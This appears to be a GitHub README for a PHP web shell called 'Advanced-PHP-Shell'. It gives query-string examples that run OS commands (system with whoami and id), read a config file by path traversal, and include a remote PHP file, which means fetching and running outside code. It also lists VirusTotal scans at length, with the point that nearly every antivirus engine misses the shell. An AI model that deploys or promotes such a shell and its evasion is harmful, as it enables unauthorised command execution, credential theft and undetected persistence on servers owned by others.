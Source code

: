 # Advanced-PHP-Shell
Allow to use native PHP functions and OS commands.


# Usage:

* f=  PHP function.
* p1= First parameter.
* p2= Second parameter.

# Example:
* advsh.php?f=getcwd
* advsh.php?f=scandir&p1=..
* advsh.php?f=system&p1=whoami
* advsh.php?f=system&p1=id
* advsh.php?f=system&p1=ipconfig
* advsh.php?f=hash&y=teste&p1=sha256
* advsh.php?f=copy&p1=teste.php&p2=teste.bkp
* advsh.php?f=readfile&p1=../../../config.php
* advsh.php?f=include&p1=https//www.brztec.com/file.php
* and much more...


# Virus Total Detection
v2
https://www.virustotal.com/gui/file/a39552138e721e8b477f009bdcc2be7c0c528aa08f1e61802f5b3422355e6966?nocache=1
Detection: 00 in 60.

v1
https://www.virustotal.com/gui/file/74a4fb042e5802e1621f27641c497a29f68fcf32f4e37cfaef08190d67246daf/detection
Detection: 01 in 60.

Obs.: bellow is only for reference, check the above link for updates.

* v2 => **Tencent:** *Undetected*
* v1 => **Tencent:** *BK.YDWebShell.PHP.Smalleval.ek*
* **Acronis (Static ML):** *Undetected*
* **AhnLab-V3:** *Undetected*
* **ALYac:** *Undetected*
* **Antiy-AVL:** *Undetected*
* **Arcabit:** *Undetected*
* **Avast:** *Undetected*
* **AVG:** *Undetected*
* **Avira (no cloud):** *Undetected*
* **Baidu:** *Undetected*
* **BitDefender:** *Undetected*
* **BitDefenderTheta:** *Undetected*
* **Bkav Pro:** *Undetected*
* **ClamAV:** *Undetected*
* **CMC:** *Undetected*
* **Cynet:** *Undetected*
* **Cyren:** *Undetected*
* **DrWeb:** *Undetected*
* **Emsisoft:** *Undetected*
* **eScan:** *Undetected*
* **ESET-NOD32:** *Undetected*
* **F-Secure:** *Undetected*
* **Fortinet:** *Undetected*
* **GData:** *Undetected*
* **Google:** *Undetected*
* **Gridinsoft (no cloud):** *Undetected*
* **Ikarus:** *Undetected*
* **Jiangmin:** *Undetected*
* **K7AntiVirus:** *Undetected*
* **K7GW:** *Undetected*
* **Kaspersky:** *Undetected*
* **Kingsoft:** *Undetected*
* **Lionic:** *Undetected*
* **Malwarebytes:** *Undetected*
* **MAX:** *Undetected*
* **MaxSecure:** *Undetected*
* **McAfee:** *Undetected*
* **McAfee-GW-Edition:** *Undetected*
* **Microsoft:** *Undetected*
* **NANO-Antivirus:** *Undetected*
* **Panda:** *Undetected*
* **QuickHeal:** *Undetected*
* **Rising:** *Undetected*
* **Sangfor Engine Zero:** *Undetected*
* **Sophos:** *Undetected*
* **SUPERAntiSpyware:** *Undetected*
* **Symantec:** *Undetected*
* **TACHYON:** *Undetected*
* **Trellix (FireEye):** *Undetected*
* **TrendMicro:** *Undetected*
* **TrendMicro-HouseCall:** *Undetected*
* **VBA32:** *Undetected*
* **VIPRE:** *Undetected*
* **VirIT:** *Undetected*
* **ViRobot:** *Undetected*
* **Xcitium:** *Undetected*
* **Yandex:** *Undetected*
* **Zillya:** *Undetected*
* **ZoneAlarm by Check Point:** *Undetected*
* **Zoner:** *Undetected*
* **Alibaba:** *Unable to process file type*
* **Avast-Mobile:** *Unable to process file type*
* **BitDefenderFalx:** *Unable to process file type*
* **CrowdStrike Falcon:** *Unable to process file type*
* **Cybereason:** *Unable to process file type*
* **Cylance:** *Unable to process file type*
* **Elastic:** *Unable to process file typev
* **Palo Alto Networks:** *Unable to process file type*
* **SecureAge:** *Unable to process file type*
* **SentinelOne (Static ML):** *Unable to process file type*
* **Symantec Mobile Insight:** *Unable to process file type*
* **TEHTRIS:** *Unable to process file type*
* **Trapmine:** *Unable to process file type*
* **Trustlook:** *Unable to process file type*
* **Webroot:** *Unable to process file type*
